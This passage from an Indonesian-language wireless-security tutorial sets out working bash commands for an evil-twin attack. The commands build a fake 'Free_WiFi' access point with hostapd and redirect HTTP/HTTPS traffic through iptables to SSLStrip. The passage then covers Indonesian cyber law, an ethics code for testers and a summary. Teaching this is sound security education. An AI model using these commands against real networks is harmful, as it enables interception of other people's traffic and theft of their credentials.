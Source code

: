 2. **Buat Access Point Palsu**
   ```bash
   # Install hostapd
   apt install hostapd dnsmasq
   
   # Konfigurasi hostapd
   echo 'interface=wlan0
   driver=nl80211
   ssid=Free_WiFi
   hw_mode=g
   channel=6' > /etc/hostapd/hostapd.conf
   
   # Jalankan access point
   hostapd /etc/hostapd/hostapd.conf
   ```

3. **Arahkan Lalu Lintas**
   ```bash
   # Aktifkan IP forwarding
   echo 1 > /proc/sys/net/ipv4/ip_forward
   
   # Atur iptables
   iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080
   iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-port 8080
   
   # Jalankan SSLStrip
   sslstrip -l 8080
   ```

## 7. Perlindungan Hukum dan Etika

### 7.1 Regulasi yang Berlaku
1. **UU ITE** (Undang-Undang Informasi dan Transaksi Elektronik)
   - Pasal 30: Akses tidak sah
   - Pasal 32: Perbuatan yang merugikan orang lain

2. **Peraturan Menteri Kominfo**
   - PM Kominfo No. 12/2016 tentang Penyelenggaraan Komunikasi dan Informasi
   - PM Kominfo No. 4/2016 tentang Perlindungan Data Pribadi

### 7.2 Kode Etik
1. Dapatkan izin sebelum melakukan pengujian
2. Laporkan kerentanan yang ditemukan
3. Jangan menyalahgunakan pengetahuan untuk kejahatan
4. Patuhi peraturan yang berlaku

## 📌 Ringkasan
1. Jaringan nirkabel rentan terhadap berbagai serangan keamanan
2. Penggunaan enkripsi yang kuat sangat penting
3. Perangkat IoT memerlukan perhatian khusus terkait keamanan
4. Pengujian keamanan harus dilakukan secara bertanggung jawab
